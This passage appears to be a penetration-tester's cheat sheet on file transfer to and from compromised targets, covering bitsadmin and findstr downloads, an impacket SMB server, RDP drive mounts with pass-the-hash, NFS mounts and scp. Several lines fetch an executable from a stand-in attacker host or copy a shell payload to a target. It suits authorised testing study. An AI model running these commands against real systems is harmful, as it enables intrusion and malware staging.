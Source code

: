 ## Windows - LOLBAS
```
# bitadmin file download
bitsadmin.exe /transfer /Download /priority Foreground http://attacker_IP:80/name_of_file.exe

# SMB shared folders download
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe

```

## smbserver
Check your kali machine on /tmp/smbshare and you can now transfer files to and from the target. On target machine, if you have RDP, you can easily check the network share on file explorer and transfer over files
```
# Attacker machine
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

# Target machine
net use n: \\192.168.220.133\share /user:test test
```

## RDP Mount
First one is with user and pass, second line is for user and NT hash. Once you successfully connect, you should see on the file explorer the network share and you can transfer files to and from your kali machine to target. Files will appear in your /tmp folder.
```
xfreerdp /v:target_IP /u:user /p:password9 /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
xfreerdp /v:target_IP /u:user /pth:NT_HASH /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

## NFS Mount
```
showmount -e <ip of target>

# Mount
mount -t nfs 10.10.10.10:/path/to/folder/on/target /path/to/mount/folder/on/my/machine
mount -t nfs -o vers=4 10.10.10.10:/home/some_user /home/kali/new_back -o nolock

# Unmount
sudo umount -t nfs 10.10.10.10:/home /mnt/some_folder
```

## SSH - scp
### Linux Target
Transfer from your attacker machine to the target
```
#Using ssh key
scp -i id_rsa shell.elf root@10.10.10.100:/tmp/shell.elf
```
